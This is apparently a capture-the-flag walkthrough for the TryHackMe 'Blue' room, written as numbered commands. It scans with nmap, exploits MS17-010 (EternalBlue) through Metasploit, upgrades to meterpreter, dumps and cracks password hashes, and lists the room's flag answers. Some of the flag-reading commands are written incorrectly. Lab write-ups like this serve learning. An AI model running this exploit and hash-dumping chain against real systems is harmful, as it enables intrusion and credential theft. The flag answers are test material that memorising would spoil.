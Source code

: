 # Blue

[blue](https://tryhackme.com/room/blue)

## Summary

## Solution

1. Recon

   1. `sudo nmap -A -T5 -sV --script vuln -oN <output file> <IP>`
   2. `3`
   3. `ms17-010`

2. Gain Access

   1. `msfconsole`
   2. `search ms17` -> `exploit/windows/smb/ms17_010_eternalblue`
   3. `show options` -> `RHOST`
   4. `set RHOST <box ip>`
   5. `run`
   6. `ctrl + z`

3. Escalate

   1. `use post/multi/manage/shell_to_meterpreter`
   2. `SESSION`
   3. `sessions` -> `set SESSION <opening session in sessions>`
   4. `run`
   5. `sessions -i <meterpreter session id>`
   6. `getuid` / `shell whoami`
   7. `ps | grep spool`
   8. `migrate <PID for spoolsv.exe>`

4. Cracking

   1. `hashdump` -> `Jon`
   2. `john jon.hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt`

5. Finding Flags

   1. `cd ../..; echo flag1.txt` (C:\\ dir) -> `access_the_machine`
   2. `cd Windows/System32/config; echo flag2.txt` -> `sam_database_elevated_access`
   3. `cd /c/Users/Jon/Documents; echo flag3.txt` -> `admin_documents_can_be_valuable`
